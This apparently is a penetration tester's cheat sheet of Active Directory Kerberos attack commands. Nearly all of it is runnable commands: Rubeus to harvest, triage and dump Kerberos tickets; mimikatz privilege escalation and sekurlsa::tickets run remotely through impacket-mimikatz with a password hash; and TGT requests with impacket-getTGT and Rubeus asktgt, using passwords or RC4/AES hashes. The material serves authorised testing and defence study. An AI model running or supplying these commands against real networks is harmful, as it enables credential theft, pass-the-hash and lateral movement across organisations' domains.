 ```shell

# Rubeus
# List Current session TGT (interval is the time between harvests in sec )
.\Rubeus.exe harvest /interval:30

# List Current session all tickets with logon id and expiration time
.\Rubeus.exe triage

# List Current session tickets with detailed info
.\Rubeus.exe klist

# Exxtract All tickets (basically /export for mimikatz)
.\Rubeus.exe dump
# /user:[user] for a specific user
# /service:[service] for a specific service
# /luid:[logon id] for specific session, if we have access to all sessions (admin)
# /nowrap ⇒ easier copy-and-paste
```
## impacket-mimikatz
```shell
# 1 need to run rpc::server from mimikatz
privilege::debug
token::elevate

rpc::server
> BindString[0]: ncacn_ip_tcp:DC[61057]

# 2 Can run mimikatz shell now
impacket-mimikatz -dc-ip `dc` `dom`/'user':['pass']@`tip` -H :HASH


# ONE liner
impacket-mimikatz "privilege::debug; token::elevate; sekurlsa::tickets"
```

# ***Request Tickets (DU)***
## TGT
### impacket
```shell
impacket-getTGT -dc-ip `dc` domain/user:password
export KRB5CCNAME=[ticket].ccache
```
### mimikatz / rubeus
```shell
privilege::debug
token::elevate

tgt::ask /domain: /user: /password:


# b) Rubeus
.\Rubeus.exe asktgt /domain: /user: /password:
# Options
# /enctype:[rc4|aes128|aes256|3des]
# use aes256 (default) for enctype
# if you don’t have password but have hash, replace /password: with /rc4: /aes128: /aes256: or /des:
```